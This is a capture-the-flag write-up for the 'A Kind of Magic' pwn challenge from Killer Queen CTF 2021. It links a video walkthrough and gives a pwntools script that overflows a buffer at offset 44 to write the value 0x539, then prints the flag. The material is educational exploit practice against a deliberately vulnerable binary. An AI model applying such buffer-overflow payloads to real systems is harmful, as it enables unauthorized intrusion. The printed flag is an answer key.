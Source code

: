 ```yaml
---
name: A Kind of Magic (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for A Kind of Magic (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# A Kind of Magic

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=1806s "Killer Queen 2021: A Kind of Magic")

## Challenge Description

> You're a magic man aren't you? Well can you show me?

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './akindofmagic'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 44

# Start program
io = start()

# Build the payload
payload = flat({
    offset: 0x539
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`
